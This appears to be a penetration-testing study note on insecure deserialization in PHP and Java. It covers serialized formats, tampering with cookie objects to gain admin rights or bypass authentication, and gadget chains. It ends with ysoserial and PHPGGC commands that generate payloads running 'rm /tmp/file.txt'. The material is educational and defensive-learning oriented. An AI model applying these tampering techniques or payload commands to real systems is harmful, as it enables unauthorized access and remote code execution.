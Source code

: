 # Insecure deserialization

<details>

<summary>General info</summary>

* Serialization is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes.

<!---->

* Deserialization is the process of restoring this byte stream to a fully functional replica of the original object.

<!---->

* Some languages serialize objects into binary formats, whereas others use different string formats, with varying degrees of human readability.

<!---->

* To prevent a field from being serialized, it must be explicitly marked as "transient" in the class declaration.

<!---->

* Insecure deserialization arises because there is a general lack of understanding of how dangerous deserializing user-controllable data can be.

</details>

<details>

<summary>PHP serialization format</summary>

```php
$user->name = "carlos";
$user->isLoggedIn = true;
```

```php
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
```

The native methods for PHP serialization are `serialize()` and `unserialize()`. If you have source code access, you should start by looking for `unserialize()` anywhere in the code and investigating further.

</details>

<details>

<summary>Java serialization format</summary>

* Some languages, such as Java, use binary serialization formats

<!---->

* Serialized Java objects always begin with the same bytes, which are encoded as `ac ed` in hexadecimal and `rO0` in Base64.

<!---->

* Any class that implements the interface `java.io.Serializable` can be serialized and deserialized. If you have source code access, take note of any code that uses the `readObject()` method, which is used to read and deserialize data from an `InputStream`.

</details>

## <mark style="color:yellow;">Manipulating serialized objects</mark>

* You can either edit the object directly in its byte stream form
* You can write a short script in the corresponding language to create and serialize the new object yourself

### <mark style="color:yellow;">Modifying object attributes</mark>

```php
$user = unserialize($_COOKIE);
if ($user->isAdmin === true) {
// allow access to admin interface
}
```

1. Identify serialized object. This example: in the cookie
2. Decode it

```php
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}
```

3. Modify attributes&#x20;

```php
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:1;}
```

4. Re-encode the object and overwrite (the cookie)

{% hint style="info" %}
**Note**: This simple scenario is not common in the wild
{% endhint %}

### <mark style="color:yellow;">Modifying data types</mark>

PHP -> if you perform a loose comparison `==` between an integer and a string, PHP will attempt to convert the string to an integer, meaning that `5 == "5"` evaluates to `true`

```php
0 == "Example string" // true
```

```php
$login = unserialize($_COOKIE)
if ($login['password'] == $password) {
// log in successfully
}
```

Attacker modified the password attribute so that it contained the integer `0` -> authentication bypass

{% hint style="info" %}
Note:

* This is only possible because deserialization preserves the data type
* When working directly with binary formats, use the Hackvertor extension (Burp Suite)
{% endhint %}

{% hint style="info" %}
Remember: when modifying data types in any serialized object format, update any type labels and length indicators in the serialized data too (Otherwise, the serialized object will be corrupted and will not be deserialized)
{% endhint %}

## <mark style="color:yellow;">Using application functionality</mark>

* Consider "Delete user" functionality, the user's profile picture is deleted by accessing the file path in the $user->image\_location attribute
* If this $user was created from a serialized object, an attacker could exploit this by passing in a modified object with the image\_location set to an arbitrary file path

## <mark style="color:yellow;">Magic methods</mark>

* Magic methods are a special type of method that are automatically triggered by specific events or scenarios, without explicit invocation. Developers use them to define code execution for these events (e.g., `__construct()`). Some languages have magic methods that are invoked automatically during deserialization.
* In Java deserialization, the ObjectInputStream.readObject() method is used to read data from the initial byte stream and essentially acts like a constructor for "re-initializing" a serialized object.

```java
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException
{
    // implementation
}
```

* They allow you to pass data from a serialized object into the website's code before the object is fully deserialized.

## <mark style="color:yellow;">Injecting arbitrary objects</mark>

Deserialization methods often don't validate the objects they process. Attackers can pass any serializable class, allowing them to instantiate arbitrary classes. With source code access, you can:

* Identify classes with deserialization magic methods
* Check if they perform unsafe operations on controllable data
* Then pass in a serialized object of this class to use its magic method for an exploit.

***

**Important**: a serialized object may not be obvious at first view. Example:

```url
%7b%22token%22%3a%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6InRlc3QiO3M6MTI6ImFjY2Vzc190b2tlbiI7czozMjoiZmx6bnQ3ZTRwYTNobGpnN3dpejJkeGxuMHVyN3VkNjYiO30%3d%22%2c%22sig_hmac_sha1%22%3a%226d68c7db6f6b4d5abc5e84acea971fd72d217202%22%7d
```

URL decode

```json
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6InRlc3QiO3M6MTI6ImFjY2Vzc190b2tlbiI7czozMjoiZmx6bnQ3ZTRwYTNobGpnN3dpejJkeGxuMHVyN3VkNjYiO30=","sig_hmac_sha1":"6d68c7db6f6b4d5abc5e84acea971fd72d217202"}
```

Base64 token decoding&#x20;

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"flznt7e4pa3hljg7wiz2dxln0ur7ud66";}
```

## <mark style="color:yellow;">Gadget chains</mark>

* A "gadget" is a code snippet in an application that helps an attacker achieve a goal, such as invoking a method to pass input into another gadget. Many insecure deserialization vulnerabilities are exploitable through gadget chains.
* Identifying gadget chains manually is arduous and nearly impossible without source code access. But if a gadget chain in Java's Apache Commons Collections library is exploitable on one website, other websites using this library may also be vulnerable.

### <mark style="color:yellow;">Tools (ysoserial , PHPGGC)</mark>

They lets you select a provided gadget chain for a target library, input a command to execute, and generates a serialized object. This reduces the manual effort of crafting gadget chains, though some trial and error is still needed.

**Java**

```bash
# Tool: https://github.com/frohoff/ysoserial
java -jar ysoserial-all.jar CommonsCollections4 "rm /tmp/file.txt"
```

**PHP**

```sh
# Tool: https://github.com/ambionics/phpggc
./phpggc -b Symfony/RCE7 system "rm /tmp/file.txt"
```

{% hint style="info" %}
**Note**: a payload might work even if the server returns an error...
{% endhint %}

### <mark style="color:yellow;">Working with documented gadget chains</mark>

If no dedicated tool exists for exploiting known gadget chains in the target application's framework, consider searching online for documented exploits to adapt manually
